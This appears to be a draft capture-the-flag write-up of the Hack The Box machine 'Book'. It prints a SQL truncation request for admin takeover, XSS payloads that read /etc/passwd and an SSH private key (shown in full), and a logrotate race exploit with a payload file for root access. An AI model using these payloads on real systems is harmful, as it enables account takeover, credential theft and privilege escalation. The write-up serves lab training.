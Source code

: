 Title:HTB: Book
Date: xx-05-2020 10:35
category:security
tags:security, boot2root, HTB, Linux
meta:security, boot2root, HTB, Linux

<img class="align-left" src="/media/2020.xx/book_card.png" alt="Book card" width="262">


This is a writeup about a retired HacktheBox machine:
[Book](https://www.hackthebox.eu/home/machines/profile/230)
This box is classified as a medium machine published on February the 22th 2020
by [MrR3boot](https://www.hackthebox.eu/home/users/profile/13531).
It involves to

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only the ports 22 (SSH) and 80 (HTTP) are open.

    :::text
    # Nmap 7.80 scan initiated Tue Feb 25 07:26:24 2020 as: nmap --top-ports=10000 -sS -oN nmap 10.10.10.176
    Nmap scan report for 10.10.10.176
    Host is up (0.013s latency).
    Not shown: 8318 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Tue Feb 25 07:31:10 2020 -- 1 IP address (1 host up) scanned in 286.11 seconds

## Web

![authentication and signup forms](/media/2020.xx/book_01.png)

We can create an account using on the box.

Once logged in we can browse the book collections, download them and learn
things about the flowers.

![User panel](/media/2020.xx/book_02.png)

We can upload books and 

![admin panel](/media/2020.xx/book_04.png)
![admin panel](/media/2020.xx/book_05.png)


The Contact form give us the email address of the platform's adminitrator:
`admin@book.htb`.

Using [SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack)
we can change the admin account password on the plateform.

We register a new user with a specific long email using Burp repeater.
Our post data request is the following:

    POST /index.php HTTP/1.1
    Host: 10.10.10.176
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.176/index.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 222
    Connection: close
    Cookie: PHPSESSID=9li0llrrcn7tthael9i5s8pmsr
    Upgrade-Insecure-Requests: 1

    name=ppqqe&email=admin%40book.htb%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20*&password=q

We can now logged in as `admin@book.htb` using the password `q`.


![admin panel](/media/2020.xx/book_03.png)

https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html

book title:
 <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>


    :::text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:GnatsBug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd NetworkManagement,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemdResolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    reader:x:1000:1000:reader:/home/reader:/bin/bash
    mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/

 <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

    :::text
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJG8m6UNZyRGj
    7eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0WxtCK0VlQUwxZ6953D16uxl
    RH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd
    /j3xWXHgpaJciHKxeNlr8x6NgbPv4s7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hL
    W1UGx/13fh20cZXA6PK75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7
    hihAbIi73mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+McK
    IrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUItIGcAaz3dTODgD
    O04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJjhPHFI7usIxmgX8Q2/nx3LSUN
    eZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lc
    PzvVGOEGQzkuu4ljFkYz6sZ8GMx6GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmT
    mk3A7jOwke0o8/4FLE2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPl
    SNbc8/ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+SRM/A
    bh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7lskGl3dh4M/2Tgl/g
    YPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+Vo5GVjWTOlfEj74k8hC6GjzWHna0
    pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7mHc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl
    /FOW2AFbkzoNbHT9GpTj5ZfacChBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k
    8J+fVHJl4IjT80uPb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOA
    MYkhsMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCftdBBP0U
    v2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi5bBLnzECgYEAlLiYGz
    P92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlWy1K/LbqIV3C01ruxVBOV7ivUYrRkx
    R/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TNnkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABI
    prhDfKUSbHzLIR4=
    -----END RSA PRIVATE KEY-----

    # ssh reader@10.10.10.176
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

      System information as of Thu Feb 27 15:39:22 UTC 2020

      System load:  0.22               Processes:            153
      Usage of /:   26.5% of 19.56GB   Users logged in:      1
      Memory usage: 22%                IP address for ens33: 10.10.10.176
      Swap usage:   0%


    * Canonical Livepatch is available for installation.
      - Reduce system reboots and improve kernel security. Activate at:
        https://ubuntu.com/livepatch

    114 packages can be updated.
    0 updates are security updates.

    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


    Last login: Thu Feb 27 15:36:29 2020 from 10.10.16.155
    reader@book:~$ cat user.txt 
    51c1d4b5197fa30e3e5d37f8778f95bc

https://github.com/DominicBreuker/pspy

reader@book:~$ ./pspy64
2020/02/27 13:51:13 CMD: UID=0    PID=19874  | /usr/sbin/logrotate -f /root/log.cfg 
2020/02/27 13:51:13 CMD: UID=0    PID=19873  | /bin/sh /root/log.sh 
2020/02/27 13:51:13 CMD: UID=0    PID=19875  | sleep 5 
2020/02/27 13:51:18 CMD: UID=1000 PID=19876  | /usr/sbin/apache2 -k start 
2020/02/27 13:51:18 CMD: UID=0    PID=19878  | /usr/sbin/logrotate -f /root/log.cfg 
2020/02/27 13:51:18 CMD: UID=0    PID=19877  | /bin/sh /root/log.sh 
2020/02/27 13:51:18 CMD: UID=0    PID=19879  | sleep 5 
2020/02/27 13:51:19 CMD: UID=1000 PID=19880  | /usr/sbin/apache2 -k start 
2020/02/27 13:51:20 CMD: UID=0    PID=19885  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:20 CMD: UID=0    PID=19884  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:20 CMD: UID=0    PID=19883  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:20 CMD: UID=0    PID=19882  | /bin/sh /root/log.sh 
2020/02/27 13:51:20 CMD: UID=0    PID=19881  | /bin/sh /root/log.sh 
2020/02/27 13:51:20 CMD: UID=0    PID=19891  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:20 CMD: UID=0    PID=19890  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:21 CMD: UID=0    PID=19889  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:21 CMD: UID=0    PID=19888  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:21 CMD: UID=0    PID=19887  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:21 CMD: UID=0    PID=19886  | /lib/systemd/systemd-udevd 
2020/02/27 13:51:21 CMD: UID=0    PID=19892  | 
2020/02/27 13:51:23 CMD: UID=0    PID=19894  | /usr/sbin/logrotate -f /root/log.cfg 
2020/02/27 13:51:23 CMD: UID=0    PID=19893  | /bin/sh /root/log.sh 
2020/02/27 13:51:23 CMD: UID=0    PID=19895  | sleep 5 
2020/02/27 13:51:28 CMD: UID=0    PID=19898  | /usr/sbin/logrotate -f /root/log.cfg 
2020/02/27 13:51:28 CMD: UID=0    PID=19897  | /bin/sh /root/log.sh 
2020/02/27 13:51:28 CMD: UID=0    PID=19899  | sleep 5 
2020/02/27 13:51:29 CMD: UID=1000 PID=19900  | /usr/sbin/apache2 -k start 
2020/02/27 13:51:30 CMD: UID=1000 PID=19901  | /usr/sbin/apache2 -k start 

https://packetstormsecurity.com/files/154743/Logrotate-3.15.1-Privilege-Escalation.html

reader@book:~$ logrotate --version
logrotate 3.11.0

$ gcc -o logrotten logrotten.c

$ cat payloadfile
cp /root/root.txt /tmp/systemd-timesyncd/ ; chmod 777 /tmp/systemd-timesyncd/root.txt

$ ./logrotten -p ./payloadfile /home/reader/backups/access.log -d

reader@book:~$ python -c 'print "a"*10000'> backups/access.log

$ cat root.txt 
84da92adf998a1c7231297f70dd89714

